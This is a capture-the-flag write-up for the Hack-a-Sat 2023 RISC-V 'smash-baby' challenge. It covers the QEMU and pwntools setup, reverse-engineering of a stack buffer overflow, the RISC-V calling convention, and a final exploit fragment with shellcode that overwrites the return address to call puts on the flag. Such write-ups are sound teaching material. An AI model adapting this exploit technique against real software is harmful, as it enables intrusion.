



# RISC-V Smash Baby

Categories: Pwn

Description:
>Who gave the baby a hammer?? She's smashing everything!! That was such a riscv idea!
>
>(This challenge is running under emulation using qemu-riscv32 inside a Docker container with an Ubuntu 22.04 base image)
> 
>author: hack-a-sat-2023 organizers
>
>[smash-baby](src/smash-baby)

**Tags:** pwn, RISC-V, RISCV, Environment setup, shellcode

## Takeaways

* Running RISC-V binaries
* pwning RISC-V binaries with pwntools

## Setting up an environment

### Vanilla environment

Before we can begin our exploitation our exploitation, we need set up our environment as we are dealing with RISC-V architecture.

```bash
nikos@ctf-box:~$ file smash-baby
smash-baby: ELF 32-bit LSB executable, UCB RISC-V, RVC, double-float ABI, version 1 (SYSV), statically linked, for GNU/Linux 5.4.0, with debug_info, not stripped
```

We will use [QEMU](https://www.qemu.org/) to emulate the binary, [binfmt](https://docs.kernel.org/admin-guide/binfmt-misc.html) for seamless interaction with the binary, `gdb-multiarch` to debug it, [pwntools](https://github.com/Gallopsled/pwntools) to programmatically interact with it and write our exploit script, `binutils-riscv64-linux-gnu` for generating shellcode (assembler), and [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find ROP gadgets in RISC-V binaries. Since this is cutting edge stuff, it is always recommended to run on the latest version.

```bash
sudo apt update
sudo apt-get install -y \
    binutils-riscv64-linux-gnu binutils-doc \
    binfmt-support \
    qemu qemu-utils \
    qemu-user qemu-user-static \
    qemu-system qemu-system-misc \
    gdb-multiarch
sudo apt-get install gcc-riscv64-linux-gnu # optional. For using gcc to produce risc-v 64-bit binaries.
pip install --upgrade pwntools ROPgadget
```

If everything has been done installed correctly, you should now have entries registered in `binfmt` about RISC-V:

```bash
nikos@ctf-box:~$ update-binfmts --display
qemu-riscv32 (enabled):
     package = qemu-user-static
        type = magic
      offset = 0
       magic = \x7f\x45\x4c\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\xf3\x00
        mask = \xff\xff\xff\xff\xff\xff\xff\x00\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xff\xff\xff
 interpreter = /usr/libexec/qemu-binfmt/riscv32-binfmt-P
    detector =
qemu-riscv64 (enabled):
     package = qemu-user-static
        type = magic
      offset = 0
       magic = \x7f\x45\x4c\x46\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\xf3\x00
        mask = \xff\xff\xff\xff\xff\xff\xff\x00\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xff\xff\xff
 interpreter = /usr/libexec/qemu-binfmt/riscv64-binfmt-P
    detector =
```

And you should also be able to simple run the binary:

```bash
nikos@ctf-box:~$ file smash-baby
smash-baby: ELF 32-bit LSB executable, UCB RISC-V, RVC, double-float ABI, version 1 (SYSV), statically linked, for GNU/Linux 5.4.0, with debug_info, not stripped
nikos@ctf-box:~$ ./smash-baby
No flag present
```

You should also be able to run the binary under `gdb-multiarch`:



Great!

### pwntools environment

Now, let's make sure that pwntools with gdb also works (by default, in version <4.9.0, they won't). Let's make a template pwntools and run it:

```python
# minimal-template.py
# A minimal custom template for binary exploitation that uses pwntools.
# Run:
#   python minimal-template.py [DEBUG] [GDB]
from pwn import *

# Set up pwntools for the correct architecture. See `context.binary/arch/bits/endianness` for more
context.binary = elfexe = ELF('./smash-baby')
print(context)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target

# Specify your gdb script here for debugging. gdb will be launched the GDB argument is given.
gdbscript = '''
# init-gef
# continue
'''.format(**locals())

arguments = []
io = start(arguments)
io.interactive()
io.close()
```

```bash
nikos@ctf-box:~$ python minimal-template.py
[*] '~/smash-baby'
    Arch:     em_riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
Traceback (most recent call last):
  File "~/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/context/__init__.py", line 785, in arch
    defaults = self.architectures[arch]
KeyError: 'em_riscv'

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "~/minimal-template.py", line 8, in <module>
    context.binary = elfexe = ELF('./smash-baby')
  File "~/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/context/__init__.py", line 176, in fset
    self._tls[name] = validator(self, val)
  File "~/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/context/__init__.py", line 872, in binary
    self.arch   = binary.arch
  File "~/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/context/__init__.py", line 176, in fset
    self._tls[name] = validator(self, val)
  File "~/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/context/__init__.py", line 787, in arch
    raise AttributeError('AttributeError: arch must be one of %r' % sorted(self.architectures))
AttributeError: AttributeError: arch must be one of ['aarch64', 'alpha', 'amd64', 'arm', 'avr', 'cris', 'i386', 'ia64', 'm68k', 'mips', 'mips64', 'msp430', 'none', 'powerpc', 'powerpc64', 'riscv', 's390', 'sparc', 'sparc64', 'thumb', 'vax']
```

Hmm interesting. It seems that the `pwnlib` library knows about `riscv'` architecture but not about `'em_riscv'` (upstream issue [here](https://github.com/Gallopsled/pwntools/pull/2177)). Anyway, we know already that our system can run the binary so let's add a small patch to the `~/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/elf/elf.py` file of the `pwnlib` library.

```diff
diff --git a/elf.py b/elf.py
index c6e6708..7f89bd8 100644
--- a/elf.py
+++ b/elf.py
@@ -481,7 +481,8 @@ class ELF(ELFFile):
             'EM_PPC64': 'powerpc64',
             'EM_SPARC32PLUS': 'sparc',
             'EM_SPARCV9': 'sparc64',
-            'EM_IA_64': 'ia64'
+            'EM_IA_64': 'ia64',
+            'EM_RISCV': 'riscv'
         }.get(self['e_machine'], self['e_machine'])

     @property
```

Let's try running it again now:

```bash
nikos@ctf-box:~/ctfs/hack-a-sat-2023/riscv/writeup/src$ python minimal-template.py
[*] '~/smash-baby'
    Arch:     riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
ContextType(arch = 'riscv', binary = ELF('~/smash-baby'), bits = 32, endian = 'little', os = 'linux')
[+] Starting local process '~/smash-baby': pid 17813
[*] Switching to interactive mode
No flag present
[*] Got EOF while reading in interactive
$ exit
[*] Process '~/smash-baby' stopped with exit code 255 (pid 17813)
[*] Got EOF while sending in interactive
```

Great! The binary works with pwntools. Let's try pwntools+gdb now:

```bash
nikos@ctf-box:~$ python minimal-template.py GDB
[*] '~/smash-baby'
    Arch:     riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
ContextType(arch = 'riscv', binary = ELF('~/smash-baby'), bits = 32, endian = 'little', os = 'linux')
[!] Neither 'qemu-riscv' nor 'qemu-riscv-static' are available
[ERROR] argv must be strings or bytes: [None, '--help']
Traceback (most recent call last):
  File "~/minimal-template.py", line 26, in <module>
    io = start(arguments)
  File "~/minimal-template.py", line 14, in start
    return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/context/__init__.py", line 1578, in setter
    return function(*a, **kw)
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/gdb.py", line 539, in debug
    sysroot = sysroot or qemu.ld_prefix(env=env)
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/context/__init__.py", line 1578, in setter
    return function(*a, **kw)
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/qemu.py", line 162, in ld_prefix
    with process([path, '--help'], env=env) as io:
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/tubes/process.py", line 258, in __init__
    executable_val, argv_val, env_val = self._validate(cwd, executable, argv, env)
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/tubes/process.py", line 518, in _validate
    argv, env = normalize_argv_env(argv, env, self, 4)
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/util/misc.py", line 204, in normalize_argv_env
    log.error("argv must be strings or bytes: %r" % argv)
  File "/home/nikos/.pyenv/versions/3.10.5/lib/python3.10/site-packages/pwnlib/log.py", line 439, in error
    raise PwnlibException(message % args)
pwnlib.exception.PwnlibException: argv must be strings or bytes: [None, '--help']
```

From the error message `Neither 'qemu-riscv' nor 'qemu-riscv-static' are available`, it seems that pwntools searches for the `qemu-riscv` and `qemu-riscv-static` binaries. Let's help it by making them point to `qemu-riscv32` and `qemu-riscv32-static` correspondingly.

```bash
nikos@ctf-box:~$ ln -s /usr/bin/qemu-riscv32 qemu-riscv
nikos@ctf-box:~$ ln -s /usr/bin/qemu-riscv32-static qemu-riscv-static
nikos@ctf-box:~$ export PATH="$PATH:$(pwd)"
```

Let's try again now:


Perfect! We can start exploiting (finally)!

## Reversing

```c
undefined4 main(void) {
  char *__buf;
  int *piVar1;
  size_t sVar2;
  char *env_flag;
  char *local_20;
  size_t local_1c;
  int fd;
  ulong timeout;
  
  setvbuf((FILE *)stdin,NULL,2,0);
  setvbuf((FILE *)stdout,NULL,2,0);
  env_flag = getenv("FLAG");
  if (env_flag == NULL) {
    puts("No flag present");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  fd = open("flag.txt",0x41);
  if (fd < 0) {
    piVar1 = __errno_location();
    printf("Errno = %d trying to open flag.txt\n",*piVar1);
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  fchmod(fd,0x180);
  __buf = env_flag;
  sVar2 = strlen(env_flag);
  local_1c = write(fd,__buf,sVar2);
  sVar2 = strlen(env_flag);
  if (sVar2 != local_1c) {
    puts("Unable to write flag to file");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  close(fd);
  local_1c = unsetenv("FLAG");
  if (local_1c != -1) {
    puts("\nBaby\'s First RISC-V Stack Smash\n");
    printf("Because I like you (and this is a baby\'s first type chall) here is something useful: %p \n"
           ,&env_flag);
    puts("Exploit me!");
    local_20 = getenv("TIMEOUT");
    if (local_20 == NULL) {
      timeout = 10;
    }
    else {
      timeout = strtoul(local_20,(char **)0x0,10);
      if (timeout == 0) {
        timeout = 10;
      }
    }
    signal(0xe,alarm_handler);
    alarm(timeout);
    do {
      local_1c = syncronize(0);
      if (local_1c == -1) {
        printf("synchronizer failed after too many received bytes");
        return 0xffffffff;
      }
      local_1c = read_message(0);
    } while (local_1c != -1);
    puts("did not read message");
    return 0xffffffff;
  }
  puts("Unable to clear environment");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

As we can see, the binary reads two environment variables: `FLAG` and `TIMEOUT`. `TIMEOUT` is (classically) used to prevent us from leaving open connections to the remote (nothing fancy). If not specified, it defaults to 10 seconds, so for our exploitation we will set it to something much higher (`3600`).

Next, the `FLAG` environment variable is read, written to `flag.txt`, and then unset from the environment variables. We also see that the `main` function leaks a stack address for us by printing `&env_flag`.

The most interesting functions now to reverse are `syncronize` and `read_message`:

```c
undefined4 main(void) {
    size_t local_1c;
    //...
    do {
      local_1c = syncronize(0);
      if (local_1c == -1) {
        printf("synchronizer failed after too many received bytes");
        return -1;
      }
      local_1c = read_message(0);
    } while (local_1c != -1);
    puts("did not read message");
    return -1;
    //...
}
```

### `syncronize`

```c
undefined4 syncronize(int zero) {
  char chr;
  int i;
  int state;
  
  state = 0;
  i = 0;
  do {
    read(0,&chr,1);
    i++;
    if (state == 3) {
      if (chr == 'G') {
        return 0;
      }
      if (chr == 'A') {
        state = 1;
      } else {
        state = 0;
      }
    } else if (state < 4) {
      if (state == 2) {
        if (chr == 'E') {
          state = 3;
        } else if (chr == 'A') {
          state = 1;
        } else {
          state = 0;
        }
      } else if (state < 3) {
        if (state == 0) {
          if (chr == 'A') {
            state = 1;
          }
        } else if (state == 1) {
          if (chr == 'C') {
            state = 2;
          } else if (chr == 'A') {
            state = 1;
          } else {
            state = 0;
          }
        }
      }
    }
  } while (i < 0x191);
  puts("unable to synchronize with incoming data");
  return -1;
}
```

This is a simple state machine. In order for the function to return `0`, the input given must be `ACEG`.

### `read_message`

```c
int read_message(int zero) {
  int iVar1;
  ushort cmd;
  uint local_18;
  int local_14;
  
  local_18 = read(0,&cmd,2);
  if (local_18 < 2) {
    puts("unable to read bytes");
    return -1;
  }

  if (cmd == 0xcefa) {
    return do_face(0);
  } else if (cmd == 0x4141) {
    return = do_aa(0);
  } else if (cmd == 0x4242) {
      return do_1b1(0);
  }
  puts("bad message type received");
  return -1;
}
```

The functions `do_face`, `do_aa`, `do_1b1` all read input from the `stdin` using `read` to a local buffer. The function `do_1b1` is vulnerable to a buffer overflow:

```c
undefined4 do_1b1_BOF(int param_1) {
  undefined auStack_28 [20];
  
  uint local_14 = read(param_1,auStack_28,60);
  if (local_14 < 20) {
    puts("Message was too short");
    return -1;
  }
  return 0;
}
```

## RISC-V architecture & ABI

Before we start our exploitation, let's take a quick dive into the RISC-V ABI:

### Registers

* [All registers definition](https://msyksphinz-self.github.io/riscv-isadoc/html/regs.html#register-definitions)



### Datatypes



### Function call convention

* [Function call convention](https://riscv.org/wp-content/uploads/2015/01/riscv-calling.pdf)
* RISC-V has a **little-endian** memory system.
* In the standard RISC-V calling convention, the **stack grows downward** and the **stack pointer** is always kept **16-byte aligned**.
* Function arguments are passed **arguments** in registers when possible. Up to eight integer registers, `a0`-`a7`
* **Return value** is passed in registers `a0` and `a1`.

Here is a simple example compiled using [godbolt.org](https://godbolt.org/):

```c
int myfunc(int arg) {
    int i;
    i=arg+0x20;
    return i;
}
int main() {
    myfunc(0x10);
    return 0;
}
```

```asm
myfunc(int)-0x2:
 nop
    R_RISCV_ALIGN *ABS*+0x2
myfunc(int):
 addi	sp,sp,-16   # allocate stack
 sw	ra,12(sp)       # store return address
 sw	s0,8(sp)        # store frame pointer
 addi	s0,sp,16    # s0=sp

 sw	a0,-12(s0)      # save arg0

 # do the opration
 lw	a0,-12(s0)
 addi	a0,a0,0x20
 sw	a0,-16(s0)

 # return
 lw	a0,-16(s0)      # return value
 lw	ra,12(sp)       # return address
 lw	s0,8(sp)        # restore frame pointer
 addi	sp,sp,16    # deallocate stack

 ret                # pseudo-instruction: jalr x0, ra, 0

main:
 addi	sp,sp,-16
 sw	ra,12(sp)
 sw	s0,8(sp)
 addi	s0,sp,16
 li	a0,0
 sw	a0,-16(s0)
 sw	a0,-12(s0)

 # prepare for function call to myfunc()
 li	a0,0x10     # setup arg1

 # compute address of myfunc using relative addressing
 # and then call it using jalr
 auipc	ra,0x0
    R_RISCV_CALL_PLT myfunc(int)
    R_RISCV_RELAX *ABS*
 jalr	ra # 3a <main+0x14>
 
 lw	a0,-16(s0)
 lw	ra,12(sp)
 lw	s0,8(sp)
 addi	sp,sp,16
 ret
```

### Other

* [**RISC-V Assembly Programmer's Manual**](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#load-and-store-global) - Very good resource.
* [Pseudo-instructions](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#-a-listing-of-standard-risc-v-pseudoinstructions)
* [Assembler directives](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#-a-listing-of-standard-risc-v-pseudoinstructions)
* [Relative/Absolute addressing, labels, GOT accessing](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#labels)
* [Load & Store](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#load-and-store-global)

## Solution

So, we have a buffer overflow and we know our architecture. Let's start out exploitation!

```bash
nikos@ctf-box:~/ctfs/hack-a-sat-2023/riscv/writeup/src$ checksec --file=./smash-baby
[*] '/home/nikos/ctfs/hack-a-sat-2023/riscv/writeup/src/smash-baby'
    Arch:     riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
```

It has RWX stack. Great! We can simply inject our shell code into the vulnerable buffer and then jump to it. Our shellcode will be simple, it will just do a `puts(flag)`. The `unsetenv("FLAG")` function simply unsets the environment variable. However, it does **not** erase the memory. It simply shifts the all the elements in the `char *environ[]` array to the left by 1 ([setenv.c#264](https://codebrowser.dev/glibc/glibc/stdlib/setenv.c.html#264)). Since we have the stack leak `&env_flag`, we can simply find this address by adding/subtracting some offsets. Also, since the binary is not PIE, the address of `puts` is constant.

So, here is our exploit:

```python
stage2 = asm('''
    /*a1 is a stack ptr. A little further down there is another stack ptr pointing to the flag */
    lw      a0, 116(a1)
    /* ra points to the beginning of stage2. 
     * Further the buffer we have stored the puts address.
     * Load it into ra
     */
    addi    ra, ra, 40
    lw      ra, 0(ra)

    /* jal to puts */
    ret
''')
stage2 = stage2 + b'B'*(36-len(stage2))
assert(len(stage2) == 36)

shellcode  = b''
shellcode += stage2
shellcode += (
    p32(flag_ptr - 0x4c - 40) + # overwrite saved ra. return to shellcode
    p32(0x0154ee) + # puts
    b'C'*16
)
assert(len(shellcode) == 60)
```

Once we send the shellcode to the remote, we get the flag!

`flag{uniform378028xray4:GE2U7tG7DN-hnLyB9Rr6kttpgaZ3h0HfL6dK3zzDITHThDtQj7VdXarD4HQEw9031oy2LCeUyUiDHQDweGPfNqk}`
